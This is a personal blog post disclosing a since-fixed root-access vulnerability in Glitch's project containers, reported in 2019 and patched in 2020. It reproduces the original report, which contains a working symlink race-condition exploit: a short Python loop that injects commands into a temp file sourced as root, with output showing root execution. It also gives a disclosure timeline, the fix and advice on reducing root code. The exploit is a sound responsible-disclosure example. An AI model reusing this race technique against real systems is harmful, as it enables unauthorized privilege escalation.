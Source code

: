 ```yaml
---
date: Mon Aug 10 2020 17:42:18 -0700 (Pacific Daylight Time)
qualitative_time: 
title: Root access on Glitch
previous_teaser: List of salads that you can't put croutons in
previous_first: true
---
```

In 2019, I discovered a way to get root access in the project containers on [Glitch](https://glitch.com/).
This issue is now fixed.

Glitch is a Node.js-focused web development environment and hosting service.
Users normally aren't allowed to have root access, with a staff member describing in a group message to me on their support forum:

> Root access to the container is something we prevent for a number of reasons, security among them.

I reported this finding to the Glitch staff.
At the time, Glitch had been getting rid of the old Fog Creek materials, the instructions to report a security vulnerability along with it.
They had not put up new instructions.

# A copy of the report

Here's a copy of the report I sent to the staff.

## vulnerability info

a big part of the leadup to wetty's user shell is run as root. from top:
```
    8 root      20   0    4240    780    716 S   0.0  0.0   0:00.00      `- runsv wetty
   11 root      20   0     212      4      0 S   0.0  0.0   0:00.00          `- /usr/bin/dumb-init /bin/bash ./run
   13 root      20   0   19696   2992   2764 S   0.0  0.0   0:00.00              `- /bin/bash ./run
   15 root      20   0    4504    656    588 S   0.0  0.0   0:00.00                  `- /bin/sh /opt/nvm/versions/node/v10/bin/wetty --port 1084 --command /etc/service/wetty/+ 
   26 root      20   0 1012088  53248  27044 S   0.0  0.8   0:03.22                      `- /opt/nvm/versions/node/v10/bin/node /opt/nvm/versions/node/v10/bin/../pnpm-global/+ 
24828 root      20   0   19716   3168   2904 S   0.0  0.1   0:00.00                          `- /bin/bash /etc/service/wetty/wetty-command.sh
24833 root      20   0   51004   3308   2900 S   0.0  0.1   0:00.00                              `- su --preserve-environment --login app
24834 app       20   0   19952   3652   3128 S   0.0  0.1   0:00.00                                  `- -su
25475 app       20   0   40424   3396   2908 R   0.0  0.1   0:00.01                                      `- top
```

from `/etc/service/wetty/wetty-command.sh`:
```sh
curl -s localhost:1083/env > /tmp/glitch-project-env 2> /dev/null
set -a && source /tmp/glitch-project-env &> /dev/null && set +a
```

there's a race condition here. we can make `/tmp/glitch-project-env` a symlink to a file we own. then, if we can sneak in a write between the `curl` and the `source`, our modified glitch-project-env will run as root

---

## sample exploitation with dummy payload

in `racer/r.py`:
```py
import os

i = 0
while True:
  os.lseek(3, 0, os.SEEK_SET)
  os.write(3, 'id >/app/my-id.txt # %d ' % i)
  i += 1
```

```sh
ln -s /tmp/ours /tmp/glitch-project-env
python racer/r.py 3>/tmp/ours
# open a new terminal
```

then check results in `/app`:
```
app@...:~ 06:06 
$ ls -l /app
...
-rw-r--r-- 1 root root   39 Apr 27 05:26 my-id.txt
drwxrwxr-x 2 app  app  1024 Apr 27 05:45 racer

app@...:~ 06:09 
$ cat /app/my-id.txt
uid=0(root) gid=0(root) groups=0(root)
```

# Notes

I don't recall why it matters that the attacker put a symlink where the environment file would be written.
Maybe there had been some other code nearby that would fail otherwise.

# Timeline

**2019/04/26** I find this vulnerability.
I reach out to their general support email address.
There is no response.

**2019/04/27** I reach out over group message on their support forum.
There is no response.

**2019/04/30** A staff member C responds, and we work through some ways I might be able submit the report.
In the end, sending the report to the group message works.
I post the report from above.
C tells me:

> I’ll put together some context and get this info back to the rest of the team. I can’t commit to any particular timeline or response, but I’ll make sure we get some eyes on it as soon as possible.

**2019/05/08** I ask if the team has taken a look.
There is no response.

**2019/05/20** I ask if C has put together some context.
There is no response.

**2019/06/05** I ask if any staff still visit the support forum.
C responds that they haven't gotten to this yet.

**2019/11/19** I remember this report and nag them.
There is no response.

**2019/12/02** C responds that they'll get to it this week.

**2020/04/03** I remember this report and nag them.
There is no response.

**2020/04/27** I notice that Glitch now has an official statement directing people to send reports to their general support email address and that a ticket system handles those emails.
I open a ticket for this vulnerability, referencing the group message thread.
There is only an automated response.

**2020/06/05** I complain on their support forum about the lack of response.
Another staff member T shows me how to view my tickets a website, but there is no update to the ticket about this vulnerability.

**2020/07/22** Another staff member P says on a Discord server to send them a private message if a security vulnerability report has not gotten a response.
I message P with a reference to the ticket.
There is no response.

**2020/08/03** I ask on the ticket if I can disclose the vulnerability.

**2020/08/04** T tells me to fllow up with C over the group message thread.
I ask on the group message thread if I can disclose the vulnerability.

**2020/08/05** C tells me to wait until tomorrow for a response.

**2020/08/06** C says they implemented a fix that will be deployed soon.

**2020/08/10** C says the fix should be deployed.

# Glitch's fix

A new version of the `wetty-command.sh` script now uses process substitution instead of a temporary file.

```sh
set -a && source <(curl -s localhost:1083/env) &> /dev/null && set +a
```

# Discussion

## Recommendations

Still a lot of work is done as root, in the "watcher," "wetty," and "ot-storage" programs.
These are thousands of lines of JavaScript code, along with hundreds of megabytes of node_modules.
They might be a good place to look for more vulnerabilities.

I'm not sure how much of all that must run as root.
I haven't looked deeply into those programs, but they as far as I know, they manipulate user-owned files and serve on non-privileged ports.
If Glitch can find the energy to make major changes to the implementation, I'd suggest they minimize the amount of code running as root.

## Support tooling issues

Glitch's support ticket system is a pain to use, although it didn't result in me missing any communications about this vulnerability.
Some magical things about the email headers aren't set up right, and staff responses are classified as spam.
Replying to a ticket sometimes creates a new ticket instead.
Staff members sometimes merge these extraneous replies into existing threads.
Sometimes they don't.
When they merge them, it leaves the extraneous ticket around.
Sometimes staff merge a reply with the wrong ticket.
T explains,

> Within HappyFox (our ticketing platform provider), support request tickets are marked “Closed” after every support team member’s response.
> That way, we are alerted when the person who created the support request responds.

I'm not convinced that this is right.

## Long turnaround

It was long.
C took reponsibility for the delays and reflected on what they and Glitch could have done to address the report more quickly.
I appreciate that Glitch was able to implement a fix quickly when I expressed that I would like to publish it, i.e., in this article.
